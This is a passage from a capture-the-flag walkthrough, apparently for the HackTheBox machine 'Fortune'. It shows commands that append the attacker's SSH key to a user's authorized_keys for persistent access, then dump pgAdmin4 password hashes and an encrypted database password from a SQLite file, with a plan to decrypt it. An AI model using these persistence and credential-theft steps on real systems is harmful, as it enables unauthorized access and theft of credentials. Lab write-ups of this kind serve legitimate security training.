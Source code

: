 To get a proper shell, I added my SSH key to `authorized_keys`:

```
test1324@ragingunicorn:/mnt/charlie$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABA[...]pgYyFnLt3ysDhscPOtelvd root@ragingunicorn" >> .ssh/authorized_keys
```

Now I can log in as `charlie`

```
root@ragingunicorn:~# ssh charlie@fortune.htb
OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.
fortune$
```

In `/var/appsrv/pgadmin4`, I find the database for the `pgadmin` application: `pgadmin4.db`

It's a sqlite database and I already have tools to view this:

```
fortune$ file pgadmin4.db
pgadmin4.db: SQLite 3.x database
```

I find the user authentication table as well as the server table that contains the encrypted `dba` account password:

```
fortune$ sqlite3 pgadmin4.db
SQLite version 3.24.0 2018-06-04 19:24:41
Enter ".help" for usage hints.
sqlite> .tables
alembic_version              roles_users
debugger_function_arguments  server
keys                         servergroup
module_preference            setting
preference_category          user
preferences                  user_preferences
process                      version
role
sqlite> select * from user;
1|charlie@fortune.htb|$pbkdf2-sha512$25000$3hvjXAshJKQUYgxhbA0BYA$iuBYZKTTtTO.cwSvMwPAYlhXRZw8aAn9gBtyNQW3Vge23gNUMe95KqiAyf37.v1lmCunWVkmfr93Wi6.W.UzaQ|1|
2|bob@fortune.htb|$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg|1|

sqlite> select * from server;
1|2|2|fortune|localhost|5432|postgres|dba|utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz||prefer||||||<STORAGE_DIR>/.postgresql/postgresql.crt|<STORAGE_DIR>/.postgresql/postgresql.key|||0||||0||22||0||0|
```

I checked the pgadmin source code on github to understand how it decrypts the `dba` password and saw that the `decrypt()` function takes two arguments. Since I already have the two values from the database I'll just copy/paste the code into a new script and punch in the values for bob's user at the end.
